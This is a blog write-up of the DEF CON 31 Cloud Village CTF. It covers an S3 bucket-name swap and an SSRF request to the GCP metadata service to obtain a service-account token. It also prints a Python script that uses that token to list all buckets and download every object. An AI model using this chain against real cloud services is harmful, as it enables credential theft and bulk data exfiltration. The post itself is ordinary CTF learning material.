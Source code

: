 ```yaml
---
layout: post
title:  "DefCon Cloud Village CTF Writeup"
date:   2023-08-28 12:41:18 -0500
categories: conference ctf
---
```


This is a write up of the DEFCON 31 Cloud Village CTF.

Part of getting through this included getting podman up and running on my chromebook. This required some messing around with LXC settings and crosh, mostly documented here, but there were some additional cgroups settings which needed to be changed documented here

I got 50th out of 200+ with only 3 flags. My machine didn't work for some of the challenges unfortunately, for example the aarch64 container and golang binary which didn't run on my x86 system

# Getting to Gnome Each Other

Flag is in the description. Copy and paste the flag from the description into the text box and hit submit.

# Gnome University

We are presented with an S3-hosted page listing some papers from previous year's cloud villages. The filename of the flag is given to us in the description as secret.txt.

[http://cloudfilestore.s3-website-eu-west-1.amazonaws.com/](http://cloudfilestore.s3-website-eu-west-1.amazonaws.com/)

Looking at the source of this page, there are some js functions which interact with a lambda function:

```js
const apiEndpoint = 'https://3k93nsmmy5.execute-api.eu-west-1.amazonaws.com/cloudev1';

// Function to fetch the presigned URL for a file
function fetchPresignedUrl(file, callback) {
    $.ajax({
        url: apiEndpoint + '/download?file_name=' + file + "&storage=research-gnomes-prod",
        type: 'GET',
        success: function(response) {
            console.log('Presigned URL:', response.body.presigned_url.body);
            callback(response.body.presigned_url.body);
        },
        error: function(error) {
            console.error('Error getting presigned URL:', error);
            callback(null); // Call the callback with null in case of an error
        }
    });
}
```

The API call in fetchPresignedUrl takes a bucket name in the storage parameter. It's hardcoded in the function, but if we try to access `secret.txt` in this particular bucket, we get a KeyError, which tells us that the file we're looking for isn't there. If we switch "research-gnomes-prod" for "research-gnomes-dev" and make our call, we get back a signed url, which takes us to the flag.

# Digital Forest

This puzzle has to do with the instance metadata service and enumerating buckets with credentials obtained from that instance metadata service.

We are presented with a simple web UI which accepts a URL and a POST body payload, and returns a response. We are given the hint in the description of the challenge that this challenge is on GCP.

We can skip using the UI by posting directly to the endpoint with `curl`, which lets us manipulate the json responses more conveniently with `jq`. I can access the metadata service for the host this service is running on  like this:

```bash
curl -X POST -d 'inputUrl=http://metadata.google.internal/computeMetadata/v1/project/project-id&inputHeader={"Metadata-Flavor": "Google"}' https://leaky-bucket-jobztbckaq-uc.a.run.app/result
```

I can generate an auth token with the metadata service. I can find the account email `leakybucket@optimal-jigsaw-390814.iam.gserviceaccount.com`, and generate an access token with `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/leakybucket@optimal-jigsaw-390814.iam.gserviceaccount.com/token`

`https://cloud.google.com/compute/docs/access/create-enable-service-accounts-for-instances#applications` tells me how to use that access token

We can use this access token to list buckets and objects, which you can see in the code snippet below.

We can take those listed buckets and objects and download each file, which is also in the code snippet below. One of those downloaded files contained the flag, and we beat this challenge.

```py
#!/usr/bin/env python3

from google.cloud import storage
import requests

project_id = <project id goes here>
access_token = <access token goes here>

def list_buckets(project_id: str, access_token: str) -> list:
    url = "https://www.googleapis.com/storage/v1/b"
    params = {"project": project_id}
    headers = {"Authorization": f"Bearer {access_token}"}

    r = requests.get(url, params=params, headers=headers)
    r.raise_for_status()

    rjson = r.json()

    bucket_names = []

    for response in r.json()['items']:
        bucket_names.append(response['name'])

    return bucket_names

def list_objects_in_buckets(project_id: str, access_token: str, bucket_names: list) -> list:
    url = "https://www.googleapis.com/storage/v1/b/"
    headers = {"Authorization": f"Bearer {access_token}"}

    buckets = []

    for bucket_name in bucket_names:
        bucket_url = url + bucket_name + '/o'

        r = requests.get(bucket_url, headers=headers)
        r.raise_for_status()

        buckets.append(r.json())

    retval = []

    for bucket_contents in buckets:
        try:
            for files in bucket_contents['items']:
                retval.append(files['mediaLink'])
        except KeyError:
            print("Nothing in bucket, moving along")
            
    
    print(retval)
    return retval

def download_all_objects(file_urls: list) -> None:
    headers = {"Authorization": f"Bearer {access_token}"}

    for file_url in file_urls:
        try:
            local_filename = file_url.split('/')[-1]
            # NOTE the stream=True parameter below
            with requests.get(file_url, stream=True, headers=headers) as r:
                r.raise_for_status()
                with open(local_filename, 'wb') as f:
                    for chunk in r.iter_content(chunk_size=8192): 
                        # If you have chunk encoded response uncomment if
                        # and set chunk_size parameter to None.
                        #if chunk: 
                        f.write(chunk)
        except requests.exceptions.HTTPError:
            print("couldn't download {}".format(file_url))

buckets = list_buckets(project_id, access_token)

print(buckets)

objects = list_objects_in_buckets(project_id, access_token, buckets)

print(objects)

download_all_objects(objects)
```

# Rumors

This challenge was a tar pit for me. The prompt for this challenge was that there was a container that the gnomes were looking at and the flag could be found by looking at what the container did.

Before I even started this challenge I needed to get my machine to be able to run docker containers. I've pretty much abandoned Docker Desktop since their licensing changed in favor of using Podman, which has a better security posture when run rootless anyway. So, I installed podman via apt, and it didn't work. There were some missing libraries not defined in the apt package. I installed the dependencies, and that got us to another error about a missing OCI method. I spent a bunch of time googling and applying various changes in response to various errors, most of which are documented  [here](https://ntk.me/2021/05/14/podman-in-crostini/) and [here](https://bugs.chromium.org/p/chromium/issues/detail?id=860565). Eventually I got to a point where I should be able to run a container, and I tested this with the hello world container on docker hub, which worked. I tried again to run the CTF container, and it failed. Looking at the registry, I saw that this container was built for ARM machines, and I was on an x86 machine. I still tried to find the flag through some other techniques though, there are a few ways we can learn more about what's in a container even if we can't run it.

`podman image inspect` can give us, among other information, the composition of the various dockerfiles that were used to build the container. I checked this, thinking maybe an environment variable might contain some creds, or a script file I can read in cleartext, or maybe a cred file in ~/.gcp or some such similar place. Unfortunately, the only thing of interest it told me was that there was a golang binary that was transferred into the container, and that's all I had to work off. This binary was not executable for me on an x86 machine, it was built for ARM. Regardless, I disassembled the golang binary to see if there were any plaintext magic strings I could look for, maybe a URL somewhere, but I didn't see any, unfortunately. This is where I left this challenge at around 3 in the morning. 

According to people on the Cloud Village Discord after the CTF closed, the flag's pretty easy to find if you can run the container. The golang binary reaches out to an unsecured S3 bucket which contains both a shell script that the binary executes as well as the flag. Intercepting and logging the traffic out of the container is all you have to do, very simple and straightforward.

# Gotta Go Gnome

We are presented with a page that generates bearer tokens. According to people on Discord who did this challenge, the project id is the same as the Digital Forest challenge, which I did not know. I spent a bunch of time trying to find an API that would tell me what project my current credentials had access to, but didn't find one lol. Didn't get the flag.
